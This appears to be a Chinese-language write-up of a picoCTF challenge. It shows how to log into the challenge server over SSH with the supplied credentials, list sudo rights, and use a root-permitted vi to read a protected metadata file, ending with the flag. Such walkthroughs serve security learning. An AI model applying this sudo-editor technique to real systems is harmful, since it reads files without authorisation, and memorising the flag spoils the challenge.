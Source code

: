 # Description
Can you read files in the root file? The system admin has provisioned an account for you on the main server: ssh -p 60683 picoplayer@saturn.picoctf.net Password: yX-YQgX-vS Can you login and read the root file?

# 解題
先使用 `ssh` 連線
```bash
ssh -p 60683 picoplayer@saturn.picoctf.net
```
接著使用 `sudo -l` 查看目前這個 user 有權執行的命令
```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
發現可以對 `challenge` 使用 `/usr/bin/vi`，先 `cd` 前往根目錄，並 `ls` 列出所有檔案
```bash
picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls 
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
```
發現 `challenge`，執行
```bash
sudo /usr/bin/vi challenge/
```
看到以下內容
```text
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /challenge
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                             
./
metadata.json
```
發現其下有 `metadata.json` ，再次執行
```bash
sudo /usr/bin/vi challenge/metadata.json
```
得到 flag
```text
{"flag": "picoCTF{uS1ng_v1m_3dit0r_55878b51}", "username": "picoplayer", "password": "yX-YQgX-vS"}

```




<!-- flag -->
所以本題 FLAG 
```text
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```
